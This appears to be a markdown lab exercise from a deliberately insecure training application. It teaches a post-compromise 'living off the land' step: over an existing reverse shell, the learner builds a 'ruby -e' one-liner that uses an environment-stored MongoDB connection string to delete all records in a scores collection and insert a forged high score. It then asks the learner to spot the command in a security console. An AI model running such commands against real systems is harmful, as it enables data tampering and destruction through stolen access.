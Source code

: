 # 🔥 Vulnerable Labs: Updating High Scores!
*A deliberately insecure application for security education and demos*

---

## 💀 About the Challenge

In this exercise you'll learn how to construct ruby code to update high scores in the Mongo Database.

In situations where there are constraints on the ability to install additional tools (such as applicaton whitelisting) attackers 
pivot to Living Off The Land (LOTL) techniques. In this case you'll execute your own ruby code to update the MongoDB with a new high score.

This could extend to other situations, like interacting with other non-public resources that are accessible from the compromised host 
e.g., on-premises resources over a VPN, Direct Connect, or Express Route. 



### 🎯 Your Mission

1. Ensure your reverse shell is still active. You can re-run the reverse shell commands from [2-Reverse-Shell.md](2-Reverse-Shell.md) if needed.
2. On your laptop, open a text editor / notepad and open the file [webserver.rb](../web/webserver.rb).
3. Copy from line 3:
```ruby 
require 'mongo'; 
```
4. Copy from line 25:
```ruby 
client = Mongo::Client.new(ENV['MONGODB_CONN']);
```
5. Copy from line 26:
```ruby 
db = client.use('game_db');
```
6. Copy from line 27:
```ruby
scores_collection = db[:player_scores];
```
7. Append the following (change the name if you like):
```ruby
scores_collection.insert_one({\"player\":\"Alice\",\"score\":1000});
```
8. Prepend the start of the command with:
```ruby
ruby -e "
```
9. Append the following to the end of the command:
```ruby
"
```
10. Ensure your final command looks like:
```ruby
ruby -e "require 'mongo'; client = Mongo::Client.new(ENV['MONGODB_CONN']); db = client.use('game_db'); scores_collection = db[:player_scores]; scores_collection.delete_many({});  scores_collection.insert_one({\"player\":\"Alice\",\"score\":1000}); "
```

11. Check the reverse shell is still active and run the command:
```bash
ruby -e "require 'mongo'; client = Mongo::Client.new(ENV['MONGODB_CONN']); db = client.use('game_db'); scores_collection = db[:player_scores]; scores_collection.delete_many({});  scores_collection.insert_one({\"player\":\"Alice\",\"score\":1000}); "
```
12. A successful execution will return a result similar to:
```bash
<insert_one({\"player\":\"Alice\",\"score\":1000}) 
```
13. Browse to the webserver_IP and check your high score. 

Congratulations, you've completed this challenge. Can you now find the command you executed in Wiz? How long did it take to appear in the console?

### 💥 Hints & Tips

- We need to put a semicolon ; after each command. The semicolon is the equivalent to a linebreak when compiled and executed by the ruby interpreter. 